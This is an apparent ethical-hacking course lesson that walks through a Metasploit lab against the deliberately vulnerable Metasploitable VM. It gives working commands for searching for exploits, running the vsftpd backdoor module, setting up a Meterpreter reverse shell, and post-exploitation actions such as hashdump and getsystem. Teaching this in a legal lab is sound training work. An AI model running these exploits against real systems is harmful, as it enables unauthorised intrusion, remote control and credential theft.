

# Metasploit Practical Lab

Metasploit is the industry's most widely used exploitation framework — this lab walks through its core workflow end to end, against a legal, purpose-built vulnerable target, so the framework feels like a natural tool rather than an intimidating black box.

## Lab setup

**Metasploitable 2 or 3** are the standard, free, legal training targets built specifically to be exploited by Metasploit — download one, run it in VirtualBox on host-only networking (Path 03 covers this setup), and you have a safe, realistic target ready to go. VulnHub and TryHackMe also host many additional free vulnerable VMs if you want more variety after this lab.

## Tasks

1. **Search for exploits.** Start Metasploit (`msfconsole`) and search for known vulnerabilities matching a service you've identified via Nmap on your target:
   ```
   search vsftpd
   search type:exploit platform:linux
   ```
   Metasploitable 2 specifically includes an intentionally backdoored version of vsftpd — a great first target to search for and find by name.
2. **Configure and run an exploit module.** Once you've found a relevant module:
   ```
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOSTS <target-ip>
   show options
   run
   ```
   `show options` before running is a habit worth building — it shows exactly what the module needs configured (target, port, payload) before you fire it.
3. **Get a reverse shell.** For exploits requiring a payload, set one and confirm you receive an interactive connection back:
   ```
   set PAYLOAD linux/x86/meterpreter/reverse_tcp
   set LHOST <your-ip>
   run
   ```
   Once you land in a Meterpreter session, try basic commands: `sysinfo`, `getuid`, `ls` — confirming you have real, interactive control of the target.
4. **Perform post-exploitation.** From your Meterpreter session, practice: `hashdump` (dumping password hashes, if privileges allow), `getsystem` (attempting automatic privilege escalation on Windows targets), and `background` followed by `sessions -l` to see and manage multiple active sessions — genuinely useful once you're juggling access to several targets in a larger engagement.



5. **Use an auxiliary module for scanning, not just exploitation.** Metasploit isn't only exploit modules — practice using an auxiliary module for reconnaissance directly within the framework, keeping your entire workflow in one console instead of switching tools constantly:
   ```
   use auxiliary/scanner/portscan/tcp
   set RHOSTS <target-ip>
   run
   ```
   Try a service-specific auxiliary scanner too, like `auxiliary/scanner/smb/smb_version`, and compare its output to what `enum4linux` gave you in Path 14.4's lab — noticing that Metasploit's ecosystem covers far more than just "the exploit part" is a genuinely useful realisation at this stage.

:::tip Metasploit isn't magic — understand what each module does
Before running any exploit module, read its description (`info <module-name>`) — knowing exactly what vulnerability it targets and how deepens your understanding far more than treating Metasploit as a black box that "just works." This distinction matters directly in real interviews (Path 20) that probe beyond "have you used Metasploit" into "do you understand what it's actually doing."
:::

:::challenge Document the full attack chain
Successfully compromise your Metasploitable target end to end, and document the process with screenshots: the module search, the configuration, the exploit execution, and at least two post-exploitation actions you performed once you had a session.
:::

## Key takeaway

Metasploit's `search → use → set → run` workflow is consistent across virtually every module in the framework — once that pattern feels natural, the framework's enormous library of exploits becomes genuinely approachable rather than overwhelming.

**Next up →** [Practical Reconnaissance Lab](#/lesson/14-ethical-hacking/practical-recon-lab)
